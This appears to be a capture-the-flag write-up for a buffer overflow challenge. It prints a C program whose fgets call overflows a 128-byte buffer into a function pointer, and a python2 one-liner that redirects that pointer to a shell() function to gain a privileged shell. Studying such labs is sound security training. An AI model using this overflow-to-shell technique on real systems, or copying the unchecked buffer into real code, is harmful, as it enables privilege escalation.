 ```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

In this challenge, func `fgets` allows us input 132 characters but var `buf` only handles 128.

<br> So we can overwrite value of `func()` by address of `shell()` to get shell.

<br> Using gdb to get address of func `shell` is 0x08048516
![](BO_2.png)

```bash
cat <(python2 -c "print 'A' * 128 +'\x16\x85\x04\x08'") - | ./ch15
```

![](BO_2.1.png)
